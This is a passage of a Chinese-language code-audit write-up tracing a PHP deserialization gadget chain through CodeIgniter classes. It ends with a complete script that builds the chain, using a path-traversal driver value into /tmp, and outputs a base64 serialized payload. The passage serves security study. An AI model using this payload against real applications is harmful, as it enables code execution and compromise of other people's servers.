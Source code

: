 显然Cache_redis.php控制更加简单，只要$this→_redis为true就可以控制任意类的close()方法

全局搜close，Session_database_driver.php中当$this→_lock为true就可以调用_release_lock()

![Untitled](%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%206658870bb1d4438684d807c1b2ec69fb/Untitled%2048.png)

当$this→_platform值为mysql时又可以触发任意类的query

在全局的query中只有DB_driver.php有较为完整的定义

```php
<?php 

class CI_Cache_redis
{
	protected $_redis;

	public function __construct($_redis=""){
		$this->_redis = $_redis;
	}
}

class CI_Session_database_driver extends CI_Session_driver
{
	protected $_platform = "mysql";

	public function __construct($db=""){
		parent::__construct($db);
	}
}

abstract class CI_Session_driver
{
	protected $_lock = true;
	protected $_db;

	public function __construct($db=""){
		$this->_db = $db;
	}
}

abstract class CI_DB_driver
{
	public $cache_on = true;
}

class CI_DB extends CI_DB_driver { }

class CI_DB_mysqli_driver extends CI_DB 
{
	
	public $dbdriver = "../../../../../../tmp/303175f9437d5145afdb341a6236bf2e/somnus";
}

$redis = new CI_Cache_redis(new CI_Session_database_driver(new CI_DB_mysqli_driver()));
echo base64_encode(serialize($redis));
```